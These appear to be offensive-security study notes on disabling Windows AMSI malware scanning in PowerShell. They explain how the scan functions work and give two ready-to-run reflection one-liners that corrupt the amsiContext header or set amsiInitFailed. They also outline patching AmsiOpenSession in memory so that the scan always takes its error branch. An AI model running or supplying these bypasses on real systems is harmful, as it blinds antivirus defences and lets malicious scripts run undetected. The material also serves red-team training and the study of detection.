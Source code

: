 `AmsiScanString` and `AmsiScanBuffer` can both be used to capture the console input or script content either as a string or as a binary buffer respectively.

Note that `AmsiScanBuffer` supersedes `AmsiScanString`.

Windows Defender scans the buffer passed to AmsiScanBuffer and returns the `AMSI_RESULT` enum.

A return value of `32768` indicates the presence of malware, and `1` indicates a clean scan.

Once the scan is complete, calling `AmsiCloseSession` will close the current AMSI scanning session.

If the context structure has been corrupted, i.e. the first `4` bytes of `amsiContext` do not match the header values (ASCII representation of `AMSI`), `AmsiOpenSession` will return an error => Effectively shut down AMSI without affecting PowerShell.

```pwsh
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Manipulating a result variable set by `AmsiInitialize` can also lead to another AMSI bypass through the `amsiInitFailed` field.

The `amsiInitFailed` field is verified by `AmsiOpenSession` in the same manner as the `amsiContext` header, which leads to an error.

Note: The AMSI bypass still works, but the substrings `AmsiUtils` and `amsiInitFailed` have since been flagged as malicious.

```pwsh
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Wrecking AMSI in PowerShell

Modify the assembly instructions themselves instead of the data they are acting upon in a technique known as **binary patching**.

The 2 first instructions in `AmsiOpenSession` are a `TEST` followed by a conditional jump.

This specific conditional jump is called jump if equal (`JE`) and depends on a CPU flag called the zero flag (`ZF`).

=> Overwrite the `TEST RDX,RDX` with an `XOR RAX,RAX` instruction, forcing the execution flow to the error branch, which will disable AMSI.

The replacement has to use up the same amount of memory. (`3` bytes)

To resolve the address of `AmsiOpenSession`, typically call `GetModuleHandle` to obtain the base address of `AMSI.DLL`, then call `GetProcAddress`.

In Windows, all memory is divided into `0x1000`-byte pages.

A memory protection setting is applied to each page, describing the permissions of data on that page.
